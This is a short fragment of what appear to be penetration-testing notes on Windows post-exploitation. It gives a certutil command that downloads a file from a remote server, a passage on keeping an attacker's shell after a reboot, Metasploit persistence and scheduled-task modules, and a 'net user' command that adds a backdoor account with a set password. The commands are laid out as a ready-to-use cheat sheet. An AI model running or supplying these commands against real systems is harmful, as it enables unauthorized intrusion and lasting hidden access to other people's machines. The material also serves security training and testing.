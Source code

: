 certutil.exe -urlcache -f https://server/file.txt/file

#### Maintaining Access:
Access need to be present there to maintain the shell for the attacker. what if a administrator reboot the system. everything have been performed by the attacker will erase and he will do it again.

So maintaining the access would be a great option.

Persistence Scripts:
run persistence -h
exploit/windows/local/persistence
exploit/windows/local/registry_persistence
 
Scheduled Tasks: (crontab)
run scheduleme
run schtaskabuse

Add User:
net user kamal ##password123## /add
